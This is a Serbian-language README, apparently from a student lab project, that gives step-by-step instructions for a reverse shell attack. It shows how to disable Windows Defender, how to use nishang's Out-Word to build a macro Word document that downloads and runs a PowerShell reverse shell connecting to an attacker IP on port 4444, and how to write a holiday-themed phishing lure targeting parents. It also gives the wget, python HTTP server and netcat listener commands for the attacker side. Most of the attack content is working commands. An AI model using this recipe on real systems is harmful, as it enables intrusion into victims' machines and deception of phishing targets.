 # Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

![Primer screenshot-a](\Screenshots\real_time_protection.png)

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

![Primer screenshot-a](\Screenshots\positioning.png)

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

![Primer screenshot-a](\Screenshots\dot_sourced.png)

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

![Primer screenshot-a](\Screenshots\creating_malicious_file.png)

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

![Primer screenshot-a](\Screenshots\phishing_mail.png)

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![Primer screenshot-a](\Screenshots\downloading_payload_script.png)

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

![Primer screenshot-a](\Screenshots\modifying_payload_script.png)

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

![Primer screenshot-a](\Screenshots\starting_server.png)

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

![Primer screenshot-a](/Screenshots/attack_example.png)
